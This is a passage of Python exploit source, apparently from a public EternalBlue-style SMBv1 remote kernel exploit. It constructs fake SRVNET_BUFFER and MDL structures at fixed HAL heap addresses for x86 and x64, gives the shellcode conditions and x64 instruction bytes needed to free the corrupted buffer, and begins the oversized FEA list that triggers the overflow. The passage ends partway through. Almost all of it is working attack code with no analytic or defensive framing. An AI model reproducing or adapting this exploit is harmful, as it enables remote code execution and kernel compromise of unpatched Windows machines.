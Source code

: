 ```
# To free the corrupted srvnet buffer, shellcode MUST modify some memory value to satisfy condition.
# Here is related field for freeing corrupted buffer
# - offset 0x10 (USHORT): be 0xffff to make SrvNetFreeBuffer() really free the buffer (else buffer is pushed to srvnet lookaside)
#                           a corrupted buffer MUST not be reused.
# - offset 0x48 (DWORD) : be a number of total byte received. This field MUST be set by shellcode because SrvNetWskReceiveComplete() set it to 0
#                           before calling SrvNetCommonReceiveHandler(). This is possible because pointer to SRVNET_BUFFER struct is passed to
#                           your shellcode as function argument
# - offset 0x60 (PMDL)  : points to any fake MDL with MDL.Flags 0x20 does not set
# The last condition is your shellcode MUST return non-negative value. The easiest way to do is "xor eax,eax" before "ret".
# Here is x64 assembly code for setting nByteProcessed field
# - fetch SRVNET_BUFFER address from function argument
#     \x48\x8b\x54\x24\x40  mov rdx, [rsp+0x40]
# - set nByteProcessed for trigger free after return
#     \x8b\x4a\x2c          mov ecx, [rdx+0x2c]
#     \x89\x4a\x38          mov [rdx+0x38], ecx

TARGET_HAL_HEAP_ADDR_x64 = 0xffffffffffd00010
TARGET_HAL_HEAP_ADDR_x86 = 0xffdff000

fakeSrvNetBufferNsa = pack('<II', 0x11000, 0)*2
fakeSrvNetBufferNsa += pack('<HHI', 0xffff, 0, 0)*2
fakeSrvNetBufferNsa += '\x00'*16
fakeSrvNetBufferNsa += pack('<IIII', TARGET_HAL_HEAP_ADDR_x86+0x100, 0, 0, TARGET_HAL_HEAP_ADDR_x86+0x20)
fakeSrvNetBufferNsa += pack('<IIHHI', TARGET_HAL_HEAP_ADDR_x86+0x100, 0, 0x60, 0x1004, 0)  # _, x86 MDL.Next, .Size, .MdlFlags, .Process
fakeSrvNetBufferNsa += pack('<IIQ', TARGET_HAL_HEAP_ADDR_x86-0x80, 0, TARGET_HAL_HEAP_ADDR_x64)  # x86 MDL.MappedSystemVa, _, x64 pointer to fake struct
fakeSrvNetBufferNsa += pack('<QQ', TARGET_HAL_HEAP_ADDR_x64+0x100, 0)  # x64 pmdl2
# below 0x20 bytes is overwritting MDL
# NSA exploit overwrite StartVa, ByteCount, ByteOffset fields but I think no need because ByteCount is always big enough
fakeSrvNetBufferNsa += pack('<QHHI', 0, 0x60, 0x1004, 0)  # MDL.Next, MDL.Size, MDL.MdlFlags
fakeSrvNetBufferNsa += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64-0x80)  # MDL.Process, MDL.MappedSystemVa

# below is for targeting x64 only (all x86 related values are set to 0)
# this is for show what fields need to be modified
fakeSrvNetBufferX64 = pack('<II', 0x11000, 0)*2
fakeSrvNetBufferX64 += pack('<HHIQ', 0xffff, 0, 0, 0)
fakeSrvNetBufferX64 += '\x00'*16
fakeSrvNetBufferX64 += '\x00'*16
fakeSrvNetBufferX64 += '\x00'*16  # 0x40
fakeSrvNetBufferX64 += pack('<IIQ', 0, 0, TARGET_HAL_HEAP_ADDR_x64)  # _, _, pointer to fake struct
fakeSrvNetBufferX64 += pack('<QQ', TARGET_HAL_HEAP_ADDR_x64+0x100, 0)  # pmdl2
fakeSrvNetBufferX64 += pack('<QHHI', 0, 0x60, 0x1004, 0)  # MDL.Next, MDL.Size, MDL.MdlFlags
fakeSrvNetBufferX64 += pack('<QQ', 0, TARGET_HAL_HEAP_ADDR_x64-0x80)  # MDL.Process, MDL.MappedSystemVa


fakeSrvNetBuffer = fakeSrvNetBufferNsa
#fakeSrvNetBuffer = fakeSrvNetBufferX64

feaList = pack('<I', 0x10000)  # the value of feaList size MUST be >=0x10000 to trigger bug (but must be less than data size)
feaList += ntfea[NTFEA_SIZE]
# Note:
# - SMB1 data buffer header is 16 bytes and 8 bytes on x64 and x86 respectively
```